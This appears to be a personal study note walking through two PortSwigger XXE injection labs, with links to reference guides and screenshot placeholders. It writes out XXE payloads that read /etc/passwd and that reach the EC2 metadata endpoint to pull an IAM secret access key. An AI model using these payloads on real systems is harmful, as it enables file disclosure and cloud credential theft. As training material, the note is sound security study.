 [XXE Injection](https://www.hackingarticles.in/comprehensive-guide-on-xxe-injection/)
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

## **1. Exploiting XXE using external entities to retrieve files**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
3. Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the contents of the `/etc/passwd` file.

step1:
![[Pasted image 20240925193628.png]]

step2:
![[Pasted image 20240925193654.png]]

step3:
![[Pasted image 20240925193806.png]]

- discovering where we can inject an XML entity and test for it :
![[Pasted image 20240925194015.png]]
- reference the entity as an internal one to prove the concept
	![[Pasted image 20240925194111.png]]

- proceed further using an external XML entity to abuse the system & reveal info
		![[Pasted image 20240925194143.png]]

## **2. Exploiting XXE to perform SSRF attacks**
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response. The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive. 
To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
3. Replace the `productId` number with a reference to the external entity: `&xxe;`. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
4. Iteratively update the URL in the DTD to explore the API until you reach `/latest/meta-data/iam/security-credentials/admin`. This should return JSON containing the `SecretAccessKey`.
